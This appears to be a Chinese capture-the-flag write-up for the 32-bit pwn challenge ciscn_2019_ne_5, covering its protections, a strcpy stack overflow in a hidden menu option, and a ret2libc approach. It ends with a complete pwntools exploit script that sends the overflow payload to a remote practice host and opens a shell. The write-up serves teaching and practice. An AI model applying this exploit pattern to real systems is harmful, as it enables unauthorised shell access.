







# 知识点

ret2libc


# 题目分析

1. 查看保护情况，32位程序，开启NX保护。

   ```bash
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，首先输入password：administrator。

   然后，程序会打印出菜单。add、display、print三个功能。

   并且存在隐藏选项4，会进入GetFlag函数。

   

3. 跟进add函数，会scanf一个长字符串到src中。但是不会造成栈溢出漏洞。

   

4. 跟进display函数，发现会puts字符串。

   

5. 跟进print函数，发现存在system函数，输入垃圾信息。

   

6. 继续分析隐藏函数。其中strcpy函数存在栈溢出漏洞，会将src字符串内容复制到dest中。

   因此，我们可以利用add函数修改src字符串，然后通过该后门函数进行栈溢出。

   

7. 我们可以利用该溢出漏洞ret2libc，题目提供了system函数。但是并没有发现/bin/sh。

   但是，我们发现了sh字符串。可以直接计算，也可以通过ROPgadget的string参数查找。

   

   


# EXP

这里有个小坑，strcpy遇到\x00就会截断，因此返回地址不能填写0，可以写任意非0垃圾数据。

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./ciscn_2019_ne_5')
io = remote('node4.buuoj.cn', '28308')
elf = ELF('./ciscn_2019_ne_5')

main = elf.sym['main']
system = elf.sym['system']
binsh = elf.search('sh').next()

io.sendlineafter('password:', 'administrator')

io.sendlineafter('0.Exit\n:', '1')
payload = 'A' * 0x48 + 'dead' + p32(system) + p32(main) + p32(binsh)
io.sendlineafter('info:', payload)

io.sendlineafter('0.Exit\n:', '4')

io.interactive()
```

